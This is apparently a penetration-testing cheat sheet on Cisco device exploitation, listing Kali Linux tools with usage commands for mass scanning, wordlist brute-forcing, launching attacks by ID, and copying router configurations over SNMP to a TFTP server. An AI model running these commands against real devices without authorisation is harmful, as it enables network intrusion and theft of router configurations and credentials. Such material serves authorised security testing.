 # Cisco Exploitation

## <mark style="color:red;">Cisco Audit Tools</mark>

Install Cisco auditing tools on kali linux:

```
apt install cisco-auditing-tool
```

### [Cisco OCS Scanner](https://www.kali.org/tools/cisco-ocs/)

A mass Cisco scanning tool.

```
# cisco-ocs [Start IP] [Stop IP]
```

### [Cisco Auditing Tool (CAT)](https://www.kali.org/tools/cisco-auditing-tool/)

Perl script which scans cisco routers for common vulnerabilities.

```
# CAT -h 192.168.99.230 -p 23 -a /usr/share/wordlists/nmap.lst
```

### [cisco-global-exploiter](https://www.kali.org/tools/cisco-global-exploiter/)

Cisco Global Exploiter (CGE), is an advanced, simple and fast security testing tool.

```
# Show all available Attacks
# cge.pl -h
# Attack
# cge.pl [Target IP] [Attack ID]
```

### [cisco-torch](https://www.kali.org/tools/cisco-torch/)

Cisco device vulnerability scanner

```
# cisco-torch -A [Target IP]
```

### <mark style="color:blue;">Cisco</mark> [copy-router-config](https://www.kali.org/tools/copy-router-config/)

Copies configuration files from Cisco devices running SNMP.

```
# copy-router-config.pl [Router IP] [TFTP Server IP] [Community String]
```
